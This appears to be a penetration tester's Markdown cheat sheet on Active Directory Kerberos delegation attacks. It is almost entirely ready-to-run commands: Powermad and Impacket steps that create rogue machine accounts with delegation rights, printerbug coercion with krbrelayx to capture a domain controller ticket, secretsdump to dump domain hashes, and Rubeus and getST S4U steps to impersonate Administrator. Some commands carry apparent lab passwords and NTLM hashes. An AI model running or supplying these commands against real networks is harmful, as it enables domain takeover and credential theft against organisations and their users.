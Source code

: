```yaml
---
title: "Delegation"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


####  SeEnableDelegationPrivilege


- Chack the MAQ : 
```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

- Create a a computer Unconstrained Delegation (Powermad)

```sh
Import-Module ./Powermad.ps1

New-MachineAccount -MachineAccount pwned -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)

Set-MachineAccountAttribute -MachineAccount pwned -Attribute useraccountcontrol -Value 528384

Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

-  Create a a computer Unconstrained Delegation (Impacket)

```sh
addcomputer.py -dc-ip $t -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl

bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

#### Unconstrained Delegation
#ADS_UF_TRUSTED_FOR_DELEGATION
- Enumerate Uncontrained Delegation :
```sh
Get-NetComputer -Unconstrained #Powerview

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

- Add SPN (Impacket) : 
```sh
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl
```

- Add SPN (Powermad) : 
```sh
Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

- Grab CCache
```sh
dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.3.12 --action add DC1.delegate.vl -dns-ip $t

krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC

printerbug.py delegate.vl/'UwU$'@dc1.delegate.vl UwU.delegate.vl
```

- Dumping hashes
```sh
export KRB5CCNAME=`pwd`/'krbtgt.ccache
secretsdump.py -k DC1.delegate.vl -just-dc-ntlm
```

#### Constrained Delegation

#TRUSTED_TO_AUTH_FOR_DELEGATION

- Enumerate with powerview  : 
```sh
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- Get a ticket : 
```sh
rubeus.exe asktgt /user:userName /domainDomainName /ntlm:Hash /outfile:FileName.tgt
```

- Impersonate Administrator : 
```sh
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```

- Check accounts with "Trusted for Delegation"
```sh
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Property SamAccountName, TrustedForDelegation
```

- With linux :
```sh
getST.py tengu.vl/gMSA01$ -spn 'MSSQLSvc/SQL.tengu.vl:1433' -impersonate 'T1_M.WINTERS' -hashes :d4b65861e85773fba2035b31ebcacb37 -dc-ip DC.tengu.vl
#Look for user in the group 
```


#### RBCD( Resource-based constrained ) 

- With linux 
```sh
# Read the attribute
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action 'read' 'domain'/'PowerfulUser':'Password'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
rbcd.py -delegate-from 'controlledaccount' -delegate-to 'target$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'

getST.py -spn 'cifs/target' -impersonate Administrator -dc-ip 'DomainController' 'domain/controlledaccountwithSPN:SomePassword'
```

- With windows 
```sh
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
```